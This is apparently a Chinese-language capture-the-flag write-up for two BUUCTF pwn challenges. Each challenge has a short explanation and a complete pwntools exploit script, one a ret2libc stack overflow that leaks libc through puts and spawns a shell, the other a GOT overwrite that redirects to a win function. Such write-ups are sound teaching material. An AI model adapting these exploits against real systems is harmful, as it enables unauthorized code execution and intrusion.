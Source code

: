 ```python
```

# buu074-cmcc_pwnme2
简单的栈溢出，题目给的拼接字符串的函数里面的路径是错的，不需要用，直接输出got表然后get shell即可。

```py
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process("./pwnme2")
io = remote("node4.buuoj.cn", 29174)
elf = ELF("./pwnme2")

payload = cyclic(0x70)
payload += p32(elf.plt['puts'])
payload += p32(elf.symbols['main'])
payload += p32(elf.got['puts'])

io.sendlineafter('Please input:', payload)
io.recvuntil(b'Hello')
io.recvuntil(b'\n')
puts = u32(io.recv(4))
print(hex(puts))
libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
system = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')
print(hex(binsh))

payload = cyclic(0x70)
payload += p32(system)
payload += p32(elf.symbols['main'])
payload += p32(binsh)
io.sendlineafter('Please input:', payload)

io.interactive()
```

# buu075-picoctf_2018_got-shell
在修改后还调用了puts函数，因此只需要将puts函数的got表内容改成win函数地址即可。

```py
from pwn import *
context.log_level = 'debug'
# io = process('./PicoCTF_2018_got-shell')
io = remote('node4.buuoj.cn', 27364)
elf = ELF('./PicoCTF_2018_got-shell')
target = elf.got['puts']
value = elf.symbols['win']

io.sendlineafter(b'value?\n', hex(target)[2:].encode())
io.sendlineafter(hex(target)[2:].encode(), hex(value)[2:].encode())

io.interactive()
```
